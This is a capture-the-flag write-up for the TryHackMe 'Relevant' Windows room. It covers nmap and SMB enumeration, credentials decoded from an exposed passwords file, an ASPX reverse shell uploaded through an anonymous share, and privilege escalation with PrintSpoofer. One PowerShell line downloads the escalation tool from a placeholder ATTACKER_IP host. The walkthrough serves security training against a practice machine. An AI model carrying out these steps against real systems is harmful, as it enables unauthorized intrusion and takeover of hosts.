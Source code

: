 ```yaml
---
title: "Relevant"
tags:
  - Medium
  - Windows
  - nmap
  - samba
  - Token Impersonation
  - PrintSpoofer
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |   Medium   |  |  10.10.72.53  |  | [Relevant](https://tryhackme.com/room/relevant) |  |

### [ User Flag ]

We first start off with a basic `nmap` scan (top 1000 ports) on the target machine.

```
sudo nmap -sC -sV -vv 10.10.72.53
```

**Results:**

![screenshot1](../assets/images/relevant/screenshot1.png)

From the results, we can see that the following ports are open: **80 (HTTP)**, **135 (RPC)**, **139 & 445 (Samba)** and **3389 (Microsoft Terminal Services)**

Let's first take a look at the HTTP website:

![screenshot2](../assets/images/relevant/screenshot2.png)

We have a basic Windows Server page.

I did some manual enumeration of the website but was unable to find anything of interest. I also tried running a `gobuster` directory scan on the website, but unfortunately Gobuster was unable to find any hidden directories.

Hitting a dead-end, I decided to move on to enumerating the Samba server.

To do so, we can use `smbclient` to list out the shares that are accessible on the server. This can be done with the `-L` tag:

```
smbclient -L 10.10.72.53
```

![screenshot4](../assets/images/relevant/screenshot4.png)

Nice! Looks like there are a few shares that we can potentially access. Since the **nt4wrksv** share seems the most interesting, let's try logging into it!

---

*Note: Alternatively, we can use nmap scripts to enumerate the Samba server. The command is:*

``` 
nmap --script smb-enum-shares.nse -p445 <host>
```

---

As anonymous login is enabled on the share, we are able to log into the nt4wrksv share without needing a password. 

The share contained a **passwords.txt** file:

![screenshot5](../assets/images/relevant/screenshot5.png)

This file contained user passwords that were base64-encoded. I went ahead and decoded them:

![screenshot6](../assets/images/relevant/screenshot6.png)

We get 2 sets of user credentials:

> Bob : !P@$$W0rD!123

> Bill : Juw4nnaM4n420696969!$$$

I tried to access the other Samba shares with these creds, but unfortunately they did not work.

I was stuck here for abit as I wasn't sure what these credentials could be used for. I decided to run a full `nmap` scan to see if I missed any open ports on the target machine.

```
sudo nmap -sC -sV -vv -p- -T4 --defeat-rst-ratelimit 10.10.72.53
```

*(The -T4 and the --defeat-rst-ratelimit tags are used to speed up the nmap scan greatly. We would not use these settings in a real-world application as it is very noisy. However, since we are scanning within a controlled CTF environment, we can go wild!)*

**Results:**

![screenshot7](../assets/images/relevant/screenshot7.png)

Oops, looks like I did miss some. Apart from the ports that we scanned earlier, there are now 3 new ports that were detected: **49663 (HTTP)**, **49667 (RPC)**, **49669 (RPC)**

What caught my attention was the HTTP server running on port 49663. Let's take a look:

![screenshot8](../assets/images/relevant/screenshot8.png)

This brings us to the same Windows Server page as before.

However, running a `gobuster` directory scan this time reveals a subdirectory called **/nt4wrksv**!

---

*Note: The /nt4wrksv entry is actually located at the very bottom of the dirbuster medium directory wordlist. Hence, I had to wait for Gobuster to completely go through the wordlist before it managed to detect this subdirectory!*

*This was a lesson on patience as I would have normally assumed that there were no more potential results once Gobuster had gone through about half of the wordlist, and would have stopped the scan. Fortunately, I let Gobuster finish the scan this time.*

---

![screenshot9](../assets/images/relevant/screenshot9.png)

As this directory has the same name as the Samba share that we accessed earlier, I assumed that it was actually bringing us to the share itself.

To test this, I tried visiting **/nt4wrksv/passwords.txt**:

![screenshot10](../assets/images/relevant/screenshot10.png)

Sure enough, the contents of the 'passwords.txt' file in the SMB share was displayed! 

This is great as that means we can potentially obtain remote code execution by uploading a file into the share and accessing it via this web directory. With this, we can open up a reverse shell and gain a foothold into the target machine.

Using [Wappalyzer](https://www.wappalyzer.com/) on the main webpage, I found out that the framework that was being used was **Microsoft ASP.NET**:

![screenshot11](../assets/images/relevant/screenshot11.png)

As such, we will have to upload an ASPX reverse shell. We'll use this [script](https://github.com/borjmz/aspx-reverse-shell).

Using `smbclient`, I uploaded the reverse shell onto the **nt4wrksv** share. This can be done with the `put` command:

![screenshot12](../assets/images/relevant/screenshot12.png)

Next, I opened up a netcat listener and opened the reverse shell by visiting **/nt4wrksv/shell.aspx** on the web server:

![screenshot13](../assets/images/relevant/screenshot13.png)

With that, the reverse shell was successfully opened and we're in!

There is a user called Bob on the machine. We can obtain the user flag from his desktop:

![screenshot14](../assets/images/relevant/screenshot14.png)

---

### [ Root Flag ]

Next, let's find a way to escalate our privileges. 

We first check out the privileges that are enabled on our current account. We do this with the `whoami /priv` command:

![screenshot15](../assets/images/relevant/screenshot15.png)

Interesting! Looks like we have the **SeImpersonatePrivilege** privilege enabled. With this privilege, we can use the [PrintSpoofer]((https://github.com/dievus/printspoofer)) tool to escalate our privileges.

---

*More information on how PrintSpoofer works can be found [here](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)*

---

We upload the PrintSpoofer tool onto our target machine by using Powershell to download it from a Python HTTP server that we have set up on our local machine:

```
powershell "Invoke-WebRequest -UseBasicParsing ATTACKER_IP/PrintSpoofer.exe -OutFile PrintSpoofer.exe"
```

Once the tool is downloaded, we can simply run it with:

```
.\PrintSpoofer.exe -i -c cmd 
```

This will open up a cmd prompt with root privileges:

![screenshot16](../assets/images/relevant/screenshot16.png)

And we have successfully escalated our privileges! With that, we can obtain the root flag located on the Administrator's desktop:

![screenshot17](../assets/images/relevant/screenshot17.png)

